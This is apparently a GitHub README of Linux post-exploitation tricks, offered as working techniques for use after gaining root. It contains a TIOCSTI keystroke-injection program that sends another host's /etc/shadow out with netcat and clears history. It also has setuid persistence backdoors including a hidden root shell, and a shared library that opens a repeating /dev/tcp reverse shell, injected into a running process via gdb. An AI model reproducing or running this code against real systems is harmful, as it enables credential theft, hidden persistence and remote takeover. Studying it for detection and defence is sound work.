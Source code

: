 # Linux-Trix
An assortment of techniques that can be used to exploit Linux.  Most of these assume that you have or can attain root privileges on the host.  You will need to change IP addresses and other references in the examples to fit your environment.

## >> Stuffing commands into an existing ssh session

**This example assumes the following**<br />
* The attacking Linux machine (A) is 192.168.1.7
* The victim Linux machine (B) is 192.168.1.5
* The remote host (C) that a user on (B) has an ssh session open to is 192.168.10.10

**You have aquired root on a target (B), check for active ssh client sessions to other remote hosts**<br />
`ps -ef | grep ssh | grep @`

Example output, you see user "bill" on "pts/1" connected to a remote host (C) as "root".<br />
`bill     18953 18855  0 08:42 pts/1    00:00:00 ssh root@192.168.10.10`

Compile the following C code on (B) as `ptshijack.c` to get `/etc/shadow` from (C).<br />
```c
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>

// gcc ptshijack.c -o ptshijack

int main() {
    int fd = open("/dev/pts/1", O_RDWR);
    if (fd < 0) {
        perror("open");
        return -1;
    }
    // your commands to execute go here.
    char *x = "(cat /etc/shadow | nc 192.168.1.7 4444) &\nhistory -c\nclear\n";
    while (*x != 0) {
        int ret = ioctl(fd, TIOCSTI, x);
        if (ret == -1) {
            perror("ioctl()");
        }
        x++;
    }
    return 0;
}
```

**Start netcat on (A) to receive** `/etc/shadow` **from (C)**<br />
```nc -nlvp 4444```

**Execute** `ptshijack` **on (B) to send** `/etc/shadow` **from (C) to (A)**<br />
SIGINT (ctrl-c) netcat on (A) to terminate the background process on (C)<br />

## >> Persistence with setuid

Once you have root on a system leave these behind to exploit later:<br >
* `chmod u+s /usr/bin/chmod` and `chmod u+s /usr/bin/chown`, will allow you to create files as an ordinary user that execute as root.
* `chmod u+s /usr/bin/cat` will allow you to view `/etc/shadow` as an ordinary user.
* Compile the following C program as a hidden binary and setuid as root.<br />
```c
// gcc -o .setuid-shell setuid-shell.c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <grp.h>

int main(int argc, char **argv)
{
   initgroups("root", 0);
   setgid(0);
   setuid(0);
   execve("/bin/bash", NULL, NULL);

   return 0;
}
```
setuid as root `chown root:root .setuid-shell` then `chmod u+s .setuid-shell`<br />
Now execute `.setuid-shell` and see that you are root by issuing the `id` command.

## >> Injecting a shared object into a running process to get a reverse shell

This technique will dynamically load a library (.so file) into an existing process to get a reverse shell as the user the process is running as.<br />
The attacker IP in this example is 192.168.1.19 and will be listening on port 4444 for the reverse shell.<br />
`nc -nlvp 4444`

**Compile the following C program**<br />
`gcc -O2 -fPIC -o libcallback.so ./libcallback.c -lpthread -shared`<br />
```c
#include <pthread.h>
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

/*
   (compile)
   gcc -O2 -fPIC -o libcallback.so ./libcallback.c -lpthread -shared
   (copy)
   cp ./libcallback.so /tmp/libcallback.so
*/

// callback retry interval and reverse shell destination
#define WAITSEC  120
#define RVSADDR "192.168.1.19"
#define RVSPORT "4444"

// reverse shell command
#define COMMAND "echo 'exec >&/dev/tcp/" RVSADDR "/" RVSPORT "; exec 0>&1' | /bin/bash"

void *callback(void *a);

__attribute__((constructor))
void start_callbacks()
{
   pthread_t tid;
   pthread_attr_t attr;

   if(pthread_attr_init(&attr) == -1)
   {
      return;
   }
   if(pthread_attr_setdetachstate(&attr, PTHREAD_CREATE_DETACHED) == -1)
   {
      return;
   }
   pthread_create(&tid, &attr, callback, NULL);
}

void *callback(void *a)
{
   while(1)
   {
      system(COMMAND);
      sleep(WAITSEC);
   }
   return NULL;
}
```
**Copy the library file to the /tmp directory**<br />
`cp ./libcallback.so /tmp/libcallback.so`

**Find the PID of a target process to inject the library into**<br />
(e.g. PID selected is 2739)<br />
`echo 'print __libc_dlopen_mode("/tmp/libcallback.so", 2)' | gdb -p 2739`

You should see a connection to your netcat session listening on port 4444.
